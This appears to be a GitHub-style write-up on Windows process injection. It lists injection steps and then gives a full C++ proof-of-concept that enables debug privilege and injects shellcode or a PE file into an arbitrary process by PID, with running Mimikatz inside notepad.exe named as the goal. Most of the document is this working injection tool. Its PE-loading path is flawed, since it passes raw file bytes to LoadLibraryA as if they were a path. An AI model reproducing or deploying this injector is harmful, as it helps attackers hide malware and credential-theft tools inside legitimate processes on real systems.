

1. Open the Target Process: Similar to loading a PE file, use OpenProcess.
2. Allocate Memory for Shellcode: Use VirtualAllocEx to allocate memory in the target process for
the shellcode.
3. Write the Shellcode into the Target Process: Use WriteProcessMemory to write the shellcode into
the allocated memory.
4. Create a Remote Thread to Execute the Shellcode: Use CreateRemoteThread to execute the
shellcode in the target process.

I’ve successfully managed self-loading of a PE executable file, yet I encounter difficulties when attempting to
inject a standard PE file into another process, such as embedding Mimikatz into the notepad.exe process. 
## **Full POC**
 ```cpp
 #include <windows.h>
#include <iostream>
#include <fstream>
#include <string>
#include <vector>

bool LoadPeIntoProcess(DWORD pid, const std::string& pePath) {

    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
    if (hProcess == NULL) {
        std::cerr << "Failed to open process. Error: " << GetLastError() << std::endl;
        return false;
    }

   std::ifstream file(pePath, std::ios::binary | std::ios::ate);
    if (!file) {
        std::cerr << "Failed to open file." << std::endl;
        CloseHandle(hProcess);
        return false;
    }

    std::streamsize size = file.tellg();
    file.seekg(0, std::ios::beg);

    char* buffer = new char[size];
    if (!file.read(buffer, size)) {
        std::cerr << "Failed to read file." << std::endl;
        delete[] buffer;
        CloseHandle(hProcess);
        return false;
    }

    SIZE_T bufferSize = static_cast<SIZE_T>(size);

    LPVOID remoteBuffer = VirtualAllocEx(hProcess, NULL, bufferSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (remoteBuffer == NULL) {
        std::cerr << "Failed to allocate memory in process. Error: " << GetLastError() << std::endl;
        delete[] buffer;
        CloseHandle(hProcess);
        return false;
    }

    if (!WriteProcessMemory(hProcess, remoteBuffer, buffer, bufferSize, NULL)) {
        std::cerr << "Failed to write to process memory. Error: " << GetLastError() << std::endl;
        VirtualFreeEx(hProcess, remoteBuffer, 0, MEM_RELEASE);
        delete[] buffer;
        CloseHandle(hProcess);
        return false;
    }

    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)LoadLibraryA, remoteBuffer, 0, NULL);
    if (hThread == NULL) {
        std::cerr << "Failed to create remote thread. Error: " << GetLastError() << std::endl;
        VirtualFreeEx(hProcess, remoteBuffer, 0, MEM_RELEASE);
        delete[] buffer;
        CloseHandle(hProcess);
        return false;
    }

    CloseHandle(hThread);
    CloseHandle(hProcess);
    delete[] buffer;

    return true;
}

// Function to read shellcode from a file
std::vector<char> ReadShellcodeFromFile(const std::string& filePath) {
    std::ifstream file(filePath, std::ios::binary | std::ios::ate);
    std::streamsize size = file.tellg();
    file.seekg(0, std::ios::beg);

    std::vector<char> buffer(size);
    if (file.read(buffer.data(), size)) {
        return buffer;
    }
    else {
        std::cerr << "Failed to read shellcode from file." << std::endl;
        return {};
    }
}

bool InjectShellcode(DWORD pid, const std::vector<char>& shellcode) {
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
    if (hProcess == NULL) {
        std::cerr << "Failed to open process." << std::endl;
        return false;
    }

    LPVOID pRemoteShellcode = VirtualAllocEx(hProcess, NULL, shellcode.size(), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (pRemoteShellcode == NULL) {
        std::cerr << "Failed to allocate memory in the target process." << std::endl;
        CloseHandle(hProcess);
        return false;
    }

    SIZE_T bytesWritten;
    if (!WriteProcessMemory(hProcess, pRemoteShellcode, shellcode.data(), shellcode.size(), &bytesWritten)) {
        std::cerr << "Failed to write shellcode into the target process." << std::endl;
        VirtualFreeEx(hProcess, pRemoteShellcode, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return false;
    }

    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pRemoteShellcode, NULL, 0, NULL);
    if (hThread == NULL) {
        std::cerr << "Failed to create remote thread." << std::endl;
        VirtualFreeEx(hProcess, pRemoteShellcode, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return false;
    }

    CloseHandle(hThread);
    CloseHandle(hProcess);
    return true;
}
void setDebugPrivilege() {
	HANDLE hToken;
	LUID luid;
	TOKEN_PRIVILEGES tkp;

    if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken)) {
		std::cerr << "OpenProcessToken failed." << std::endl;
		return;
	}

    if (!LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &luid)) {
		std::cerr << "LookupPrivilegeValue failed." << std::endl;
		CloseHandle(hToken);
		return;
	}

	tkp.PrivilegeCount = 1;
	tkp.Privileges[0].Luid = luid;
	tkp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

    if (!AdjustTokenPrivileges(hToken, FALSE, &tkp, sizeof(tkp), NULL, NULL)) {
		std::cerr << "AdjustTokenPrivileges failed." << std::endl;
	}

	CloseHandle(hToken);
}
int main(int argc, char* argv[]) {
    if (argc < 4) {
        std::cerr << "Usage: " << argv[0] << " <PID> -s <ShellcodeFilePath> or -p <PEFilePath>" << std::endl;
        return 1;
    }

    DWORD pid = atoi(argv[1]);
    std::string option = argv[2];
    std::string input = argv[3];
    setDebugPrivilege();
    if (option == "-s") {
        std::vector<char> shellcode = ReadShellcodeFromFile(input);
        if (!shellcode.empty()) {
            InjectShellcode(pid, shellcode);
        }
    }
    else if (option == "-p") {
        LoadPeIntoProcess(pid, input);
    }
    else {
        std::cerr << "Invalid option. Use -s for shellcode file path or -p for PE file path." << std::endl;
        return 1;
    }

    return 0;
}

 ```